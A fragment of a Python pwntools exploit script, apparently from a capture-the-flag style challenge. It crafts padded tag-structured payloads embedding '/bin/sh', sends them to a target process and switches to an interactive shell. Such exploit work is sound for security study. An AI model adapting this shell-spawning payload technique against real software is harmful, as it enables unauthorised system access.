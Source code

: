 ```python
    pay += b'<ALBUM>' + p16(len(pay2)) + p8(2) + pay2 + b'</ALBUM>'
    pay += b'<FEATURING>' + p16(0x80) + p8(0xf) +b'/bin/sh\x00'+ b'a'*0x78 + b'</FEATURING>'
    pay += b'</TAG>'

    pay += b'\x00' * (0x10000 - len(pay))

    p.send(pay)
    pause()

    pay = b'<TAG>'
    pay += b'<TITLE>' + p16(0x80) + p8(0xf) + b'a'*0x80 + b'</TITLE>'
    pay += b'<SINGER>' + p16(0x80) + p8(0xf) + b'a'*0x80+ b'</SINGER>' 
    pay += b'<ALBUM>' + p16(0x80) + p8(0xf) + b'a'*0x80  + b'</ALBUM>' 
    pay += b'<FEATURING>' + p16(0x80) + p8(0xf) + b'a'*0x80 + b'</FEATURING>'
    pay += b'</TAG>'

    pay += b'\x00' * (0x10000 - len(pay))
    pause()
    p.send(pay)

    context.log_level='debug'

    p.interactive()
    exit(1)
  except ValueError as e:
    print(e)
    p.close()
```

